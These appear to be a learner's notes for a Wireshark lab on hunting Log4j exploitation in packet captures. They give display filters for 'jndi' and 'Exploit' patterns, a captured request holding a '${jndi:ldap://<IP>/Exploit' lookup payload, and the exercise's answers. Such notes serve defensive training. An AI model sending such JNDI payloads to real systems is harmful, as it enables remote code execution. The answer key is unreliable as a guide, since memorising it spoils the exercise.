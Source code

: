 ### Log4j analysis 

A proper investigation starts with prior research on threats and anomalies going to be hunted. Let's review the knowns on the "Log4j" attack before launching Wireshark.  

Log4j vulnerability analysis in a nutshell:

```
Research outcomes for grabbing the low-hanging fruits:

The attack starts with a "POST" request
There are known cleartext patterns: "jndi:ldap" and "Exploit.class".

http.request.method == "POST"
(ip contains "jndi") 
(ip contains "Exploit")
(frame contains "jndi") 
(frame contains "Exploit")
(http.user_agent contains "$") 
(http.user_agent contains "==")


(ip contains "jndi") or (ip contains "Exploit")
---------------------------
source       destination     protocol info
45.137.21.9  198.71.247.91   HTTP     GET /$%7Bjndi:ldap://<IP>/Exploit

```


```
Use the "Desktop/exercise-pcaps/http/user-agent.cap" file.  

1) The answer is not the number of packets. It is the number of anomalous user-agent types. You need to filter the "user agent" info "as a column" and conduct a manual investigation of the packet details to spot the anomalies. 
2) In addition to the obvious "non-standard" and modified user agent types: Does "Windows NT 6.4" exist?

Investigate the user agents. What is the number of anomalous  "user-agent" types?

6

What is the packet number with a subtle spelling difference in the user agent field?

52

Use the "Desktop/exercise-pcaps/http/http.pcapng" file.  
Locate the "Log4j" attack starting phase. What is the packet number?

444

Locate the "Log4j" attack starting phase and decode the base64 command. What is the IP address contacted by the adversary? (Enter the address in defanged format and exclude "{}".)

62[.]210[.]130[.]250


```

